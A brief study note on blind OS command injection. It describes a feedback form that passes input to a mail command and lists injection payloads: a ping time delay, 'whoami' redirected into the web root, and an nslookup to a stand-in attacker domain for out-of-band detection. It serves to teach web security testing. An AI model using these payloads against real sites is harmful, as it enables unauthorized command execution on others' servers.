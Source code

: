 
## Blind OS Command Injection Vulnerabilities

Example:
- Website allows users to submit feedback about the website
- Feedback form sends email to a site administrator mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com

- Detection/Exploit:
	- Inject a command that triggers a time delay
		& ping -c 10 127.0.0.1 &
		§ Will ping loopback adapter for 10 seconds

- Redirect Output into a file in the web root
	& whoami > /var/www/static/whoami.txt &
	§ Use a browser to fetch /whoami.txt to see the output

- Exploit using out-of-band (OAST) techniques
	& nslookup kgji2ohoyw.web-attacker.com &
	§ Attacker can monitor for the specified lookup occuring